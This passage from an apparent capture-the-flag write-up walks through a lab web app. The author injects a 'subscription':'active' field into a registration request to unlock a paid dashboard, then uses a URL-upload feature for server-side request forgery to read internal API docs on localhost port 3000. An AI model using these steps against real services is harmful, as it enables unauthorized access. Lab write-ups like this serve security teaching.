 I put the `/api/register` request in burp repeater and add this to forge a jwt with an active subscription:
```t
{
	"email":"newuzi@uzi.thm",
	"password":"newpassword",
	"subscription":"active"
}
```
Now I can access `http://storage.cloudsite.thm/dashboard/active`.  You can upload a file from localhost or from url. Also on the page I see: `Note: File extensions are removed for security reasons.` This steers me away from messing with file type on upload and more towards SSRF.

I upload a file (just requested my own server `http://10.13.66.123:8000/`) and I see:
```
Success: File stored from URL successfully
File path: /api/uploads/2d7be116-5097-4d6e-adcd-e89e93512088
```
On my server I see the request:
```shell
python3 -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...  
10.10.242.59 - - [25/Aug/2025 22:35:25] "GET / HTTP/1.1" 200 -
```

I try to access `/api/docs` with `http://10.13.66.123:8000/api/docs` and browsing to `/api/uploads/af64d8cc-3502-45f5-a633-02cb465d8770` but the file I download shows a 404.

It makes a POST request to `http://storage.cloudsite.thm/api/store-url` upon upload. In the response in burpsuite I see the header `X-Powered-By: Express` which uses the default port `3000`

I make a request to `http://127.0.0.1:3000/api/docs` and then visit the link it gives me: `http://storage.cloudsite.thm/api/uploads/5b933372-1ed2-40b4-8a3c-94d0a8e6e4b7`. I download this file and see the api documentation:
```shell
cat 5b933372-1ed2-40b4-8a3c-94d0a8e6e4b7  
Endpoints Perfectly Completed  
  
POST Requests:  
/api/register - For registering user  
/api/login - For loggin in the user  
/api/upload - For uploading files  
/api/store-url - For uploadion files via url  
/api/fetch_messeges_from_chatbot - Currently, the chatbot is under development. Once development is complete, it will be used in the future.  
  
GET Requests:  
/api/uploads/filename - To view the uploaded files  
/dashboard/inactive - Dashboard for inactive user  
/dashboard/active - Dashboard for active user  
  
Note: All requests to this endpoint are sent in JSON format.
```

I make a request to `http://127.0.0.1:3000/api/fetch_messeges_from_chatbot` and see `{"message":"Token not provided"}`.
